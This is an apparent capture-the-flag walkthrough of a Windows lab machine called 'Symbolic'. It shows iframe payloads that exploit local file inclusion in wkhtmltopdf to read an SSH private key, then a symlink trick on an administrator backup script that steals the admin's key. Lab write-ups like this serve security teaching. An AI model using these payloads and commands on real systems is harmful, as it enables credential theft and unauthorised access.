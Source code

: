 # Symbolic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 20:55 +08
Nmap scan report for 192.168.202.177
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH was open on this machine, which was unusual for Windows.&#x20;

### WebPage to PDF --> LFI

Port 80 was rather simple:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

I created a HTML file with one word within it, then hosted it on my HTTP server and submitted the URL with my IP. This returned a PDF:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to enumerate any version:

```
$ exiftool ac354a9d4d469ef971709095540b2f42.pdf 
ExifTool Version Number         : 12.57
File Name                       : ac354a9d4d469ef971709095540b2f42.pdf
Directory                       : .
File Size                       : 6.6 kB
File Modification Date/Time     : 2023:07:06 21:03:17+08:00
File Access Date/Time           : 2023:07:06 21:03:17+08:00
File Inode Change Date/Time     : 2023:07:06 21:03:25+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.3
Producer                        : Qt 4.8.7
Create Date                     : 2023:07:06 06:02:52-07:00
Page Count                      : 1
```

Googling exploits for this version show that LFI is a possibility:

{% embed url="https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/" %}

{% embed url="https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/" %}

The exploit here is the content of the HTML file being used. Here's my PoC:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts">
```

When we host this HTML file on a HTTP server and use the website's converting feature, this is what we are returned:

<figure><img src="../../../.gitbook/assets/image (13) (7).png" alt=""><figcaption></figcaption></figure>

This confirms that LFI works. We can edit the PoC to show all the content:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find the correct file to read. The website gives us a username `p4yl0ad`, and SSH is open, so let's try to read the user's private key.

```markup
<iframe src="C:/users/p4yl0ad/.ssh/id_rsa" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Script --> Symbolic Link Write

There was a `C:\backup` directory with a script in it:

```
p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
07/06/2023  06:09 AM    <DIR>          logs

p4yl0ad@SYMBOLIC C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```

There was a backup directory being updated, and this script was running once every minute or so. The script is also owned by the administrator:

```
p4yl0ad@SYMBOLIC C:\backup>icacls backup.ps1
backup.ps1 SYMBOLIC\Administrator:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We also have write access over `C:\xampp\htdocs\logs\request.log`, meaning that we can create a symbolic link to make the script read and copy any file we want. Again, since SSH is open, we can attempt to get the admin's private key.&#x20;

First we need to delete the `logs` directory:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs>del logs 
C:\xampp\htdocs\logs\*, Are you sure (Y/N)? y
```

We cannot create a symbolic link to the private SSH key using conventional means because we aren't given access:

```
p4yl0ad@SYMBOLIC C:\backup>powershell -c New-item -ItemType SymbolicLink -Path "C:/xampp/htdocs/logs/request.log" -T
arget "C:/users/administrator/.ssh/id_rsa"
New-item : Access is denied
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], Unauthoriz  
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.NewItemCommand        
 
New-item : Cannot find path 'C:\users\administrator\.ssh\id_rsa' because it does not exist.
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], ItemNotFound  
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.NewItemCommand
```

We can create a junction however:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs\logs>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\xampp\htdocs\logs

07/06/2023  06:22 AM    <DIR>          .
07/06/2023  06:22 AM    <DIR>          ..
07/06/2023  06:22 AM    <JUNCTION>     request.log [C:\Users\Administrator\.ssh\id_rsa]
```

But the above won't work. What worked was `CreateSymlink.exe` from this repo:

{% embed url="https://github.com/googleprojectzero/symboliclink-testing-tools" %}

We can download and upload that binary. Then, we can run it:

```
p4yl0ad@SYMBOLIC C:\Windows\Tasks>.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\users\administrator\.ss
h\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\users\administrator\.ssh\id_rsa: 00000174 
Press ENTER to exit and delete the symlink
```

I waited for a while and then deleted the symlink. When we check the `C:\backup\logs` directory's newest file that is significantly larger than the rest, we find an SSH key:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Then, use this key to `ssh` in as the administrator:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
